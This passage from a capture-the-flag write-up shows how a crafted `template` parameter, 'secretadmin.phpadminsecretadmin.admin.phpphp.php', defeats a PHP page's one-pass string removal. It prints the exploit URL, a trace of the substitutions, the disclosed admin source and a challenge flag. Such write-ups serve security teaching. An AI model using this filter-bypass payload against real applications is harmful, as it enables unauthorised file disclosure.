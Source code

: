 Awesome, we can see how the pages get rendered. The code gets the name of the file to render as the `template` query parameter. It then strips out any characters that aren't a letter, number, or period. Then it removes occurrences of `admin.php`. Then it removes occurences of `secretadmin.php`. 

We can tell from the comments that `secretadmin.php` is the file we need to access. This will be a bit tricky though considering the text substitutions being made. To make this easier, I copy pasted the critical section of the code into a local editor until I could find a way around this. The key insight is realizing that you can structure your input such that after applying the substitutions you still have the keywords you need. For example, "admin`admin.php`.php" run through the first filter gives you `admin.php` as an output.

With some fiddling, I found this string which works: `secretadmin.phpadminsecretadmin.admin.phpphp.php`. Let's see why this works line by line:

```php
<?php
$page = 'secretadmin.phpadminsecretadmin.admin.phpphp.php';

$page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
// $page = 'secretadmin.phpadminsecretadmin.admin.phpphp.php'
$page = str_replace("admin.php","",$page);
// $page = 'secretadminsecretadmin.php.php'
$page = str_replace("secretadmin.php","",$page);
// $page = 'secretadmin.php'
```

Querying `https://hackyholidays.h1ctf.com/my-diary/?template=secretadmin.phpadminsecretadmin.admin.phpphp.php` gives us:
```html
<?php
if( $_SERVER["REMOTE_ADDR"] == '127.0.0.1' ){
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <title>My Diary</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
<body>
<div class="container">
    <div class="text-center"><img src="/assets/images/grinch-networks.png" alt="Grinch Networks"></div>
    <h1 class="text-center">My Diary</h1>
    <h4 class="text-center">flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}</h4>
    <div class="row" style="margin-top:30px">
        <div class="col-md-6 col-md-offset-3">
            <div class="panel panel-default">
                <div class="panel-heading">Pending Entries</div>
                <div class="panel-body" style="padding:0">
                    <table class="table" style="margin:0">
                        <tr>
                            <th>Date</th>
                            <th>Event</th>
                            <th class="text-center">Action</th>
                        </tr>
                        <tr>
                            <td>23rd Dec</td>
                            <td>Launch DDoS Against Santa's Workshop!</td>
                            <td class="text-center"><input type="button" class="btn btn-danger btn-xs" value="Post"></td>
                        </tr>
```